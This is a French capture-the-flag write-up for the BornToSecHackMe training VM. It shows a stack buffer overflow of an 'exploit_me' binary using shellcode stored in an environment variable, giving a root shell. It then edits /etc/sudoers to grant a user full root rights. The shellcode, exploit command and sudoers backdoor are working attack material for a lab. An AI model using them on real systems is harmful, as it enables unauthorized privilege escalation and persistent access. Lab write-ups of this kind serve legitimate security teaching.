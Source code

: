 # Writeup numéro 4:
## Étape 0 - Lancement de la VM:

![BootToRoot](/assets/start_vm.png)

## Étape 1 - Connexion à la VM

Nous pouvons nous connecter à la VM avec les identifiants zaz trouvés avec la méthode décrite sur le [writeup1](/writeup1.md)

## Étape 2 - Exécution buffer overflow

Dabord on va créer une nouvelle variable d'environnement avec l'instruction pour lancer un nouveau terminal.

```sh
export OPEN_TERMINAL=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

On écrit un petit programme qui nous retourne l'adresse de la variable d'environnement passé en parametre.

```c
// getEnvAddress.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{
	if (argc == 2)
	{
		char* ptr = getenv(argv[1]);
		printf("%p\n", ptr);
	}
}
```

On le compile et on lui passe le nom de la variable pour connaître son adresse.

```sh
~$ gcc getEnvAddress.c -o getEnvAddress
~$ ./getEnvAddress OPEN_TERMINAL
0xbffffe60
```

On peut alors lancer exploit_me avec une chaine de caractères qui écrit plus de ce qui est prévu.

```sh
~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')
```

On remplit les 140 caractères avec des [NOP](https://en.wikipedia.org/wiki/NOP_(code)) (qui fait passer à l'octet suivant) et on écrit après l'adresse (en [little-endian](https://en.wikipedia.org/wiki/Endianness#Little-endian)) de la variable d'environnement qui contient le shellcode.

Cela nous permet avoir un terminal sur lequel on aura les droits root.

```
~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\x60\xfe\xff\xbf"')
��������������������������������������������������������������������������������������������������������������������������������������������`���
# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
```
Pour donner tous les privileges à zaz on peut modifier les droits du fichier /etc/sudoers, ajouter zaz après root et on change encore les droits du fichier.

```
# chmod 666 /etc/sudoers
```

```vim
[...]
16 # Cmnd alias specification
17
18 # User privilege specification
19 root    ALL=(ALL:ALL) ALL
20 zaz     ALL=(ALL:ALL) ALL
21
22 # Members of the admin group may gain root privileges
23 %admin ALL=(ALL) ALL
[...]
```

```
# chmod 440 /etc/sudoers
```

Nous pouvons maintenant passer root avec le mot de passe zaz.

```
zaz@BornToSecHackMe:~$ sudo su
[sudo] password for zaz:
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
```

[Plus d'information](https://beta.hackndo.com/retour-a-la-libc/)
